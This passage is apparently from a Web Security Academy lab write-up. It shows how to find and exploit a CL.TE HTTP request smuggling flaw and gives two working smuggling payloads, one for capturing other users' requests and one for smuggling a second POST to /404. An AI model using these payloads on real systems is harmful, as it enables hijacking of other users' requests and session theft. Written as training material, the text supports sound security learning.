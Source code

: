 It looks it is vulnerable to HTTP request smuggling of type CL.TE, and we can
read requests with this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Content-Type: x-www-form-urlencoded
Content-Length: 156
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a32000c046da999825cd4a900ba008a.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 100

search=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/3f6228d8dcf74da005e0f54f7ba86121.png)

We will smuggle a second whole request, so we will send 2 complete POST requests
to /404:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /404 HTTP/2
...
Content-Type: x-www-form-urlencoded
Content-Length: 149
Transfer-Encoding: chunked

0

POST /404 HTTP/1.1
Host: 0a32000c046da999825cd4a900ba008a.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 1

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
